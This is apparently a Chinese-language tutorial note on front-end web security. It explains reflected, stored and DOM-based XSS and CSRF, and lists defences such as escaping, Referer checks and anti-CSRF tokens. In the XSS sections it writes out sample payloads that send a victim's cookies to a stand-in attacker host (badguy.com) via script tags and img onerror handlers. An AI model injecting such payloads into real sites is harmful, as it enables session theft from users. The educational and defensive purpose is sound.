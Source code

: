 # 前端安全

## XSS攻击（cross site scripting）

攻击者往Web页面中插入恶意Script代码，当用户浏览该页时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的

它与SQL注入攻击类似，SQL注入攻击中以SQL语句作为用户输入，从而达到查询/修改/删除数据的目的

### 反射型（经过后端，不经过数据库）
反射型XSS，是最常用的，使用最广的一种方式。通过给别人发送有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数呗HTML解析、执行。

它的特点：是非持久化，必须用户点击带有特定参数的链接才能引起。

看这样一个例子，被攻击的网站victim.com在收到请求时只是原封不动地将param的值返回给前端，那么下面这个URL就可以发起XSS攻击，如果你误点了这个URL，那么你访问当前网站的cookie就会被发送到攻击者的后台

```
    http://victim.com?param=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
```

### 存储型（经过后端，经过数据库）
存储型的XSS攻击多存在于能发表评论，或者发布文章的一些网站上，攻击者在自己发表的评论或是文章中加入一些恶意的代码，这些代码会被后端存进数据库，其他人再来浏览这个网页时后端就会取出数据库中的文章或评论展示出来，也就会执行其中的恶意代码

这些恶意代码甚至可以被放在`<img>`等标签内部

```
    <img src="..." onerror="alert(document.cookie)">
    <a href="javascript:alert(document.cookie)" >link</a>
```

此处只是简单的弹出一个弹窗来显示cookie，但实际上，这里还可以把cookie发送到攻击者的服务器:

```
    <img src="..." onerror="window.location.href=('http://badguy.com?cookie=' + document.cookie)">  
    // 这里其实就是对攻击者的地址进行了一次访问并且带上了当前网站的cookie值
```


### DOM型（不经过后端）

利用前端代码的漏洞，如可能使用了innerHTML，那么就可以在原有的DOM结构里面插入可执行的脚本


### 解决方案

1. 对敏感标签进行过滤，如script标签等直接过滤掉
2. 对敏感字符进行转义，如将`<script>`转义为`&lt;script&gt;`，这样最终的显示不会有问题，同时也阻止了脚本的执行
3. 

### 总结

1. 反射性的XSS攻击是靠用户点击url来实现的，不持久，只要用户不瞎点就不会触发
2. 存储型的XSS攻击即使用户什么都没做，只要访问网站就可能被攻击，因为后台返回来的网页本身就有问题了
3. 


## CSRF攻击

### 原理：

1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；

2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；

3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；

4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；

5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。 


### CSRF漏洞检测：
       
检测CSRF漏洞是一项比较繁琐的工作，最简单的方法就是抓取一个正常请求的数据包，去掉Referer字段后再重新提交，如果该提交还有效，那么基本上可以确定存在CSRF漏洞。

### 应对措施

1. 验证 HTTP Referer 字段

根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。在通常情况下，访问一个安全受限页面的请求来自于同一个网站，比如需要访问 http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory，用户必须先登陆 bank.example，然后通过点击页面上的按钮来触发转账事件。这时，该转帐请求的 Referer 值就会是转账按钮所在的页面的 URL，通常是以 bank.example 域名开头的地址。而如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值，如果是以 bank.example 开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，拒绝该请求。

2. 尽量使用POST，限制GET

GET接口太容易被拿来做CSRF攻击，看第一个示例就知道，只要构造一个img标签，而img标签又是不能过滤的数据。接口最好限制为POST使用，GET则无效，降低攻击风险。

当然POST并不是万无一失，攻击者只要构造一个form就可以，但需要在第三方页面做，这样就增加暴露的可能性。

3. 浏览器Cookie策略

IE6、7、8、Safari会默认拦截第三方本地Cookie（Third-party Cookie）的发送。但是Firefox2、3、Opera、Chrome、Android等不会拦截，所以通过浏览器Cookie策略来防御CSRF攻击不靠谱，只能说是降低了风险。

PS：Cookie分为两种，Session Cookie（在浏览器关闭后，就会失效，保存到内存里），Third-party Cookie（即只有到了Exprie时间后才会失效的Cookie，这种Cookie会保存到本地）。

PS：另外如果网站返回HTTP头包含P3P Header，那么将允许浏览器发送第三方Cookie。

4. 加验证码

验证码，强制用户必须与应用进行交互，才能完成最终请求。在通常情况下，验证码能很好遏制CSRF攻击。但是出于用户体验考虑，网站不能给所有的操作都加上验证码。因此验证码只能作为一种辅助手段，不能作为主要解决方案

5. Anti CSRF Token

现在业界对CSRF的防御，一致的做法是使用一个Token（Anti CSRF Token）。

例子：

   1. 用户访问某个表单页面。

   2. 服务端生成一个Token，放在用户的Session中，或者浏览器的Cookie中。

   3. 在页面表单附带上Token参数。

   4. 用户提交请求后， 服务端验证表单中的Token是否与用户Session（或Cookies）中的Token一致，一致为合法请求，不是则非法请求。

这个Token的值必须是随机的，不可预测的。由于Token的存在，攻击者无法再构造一个带有合法Token的请求实施CSRF攻击。另外使用Token时应注意Token的保密性，尽量把敏感操作由GET改为POST，以form或AJAX形式提交，避免Token泄露。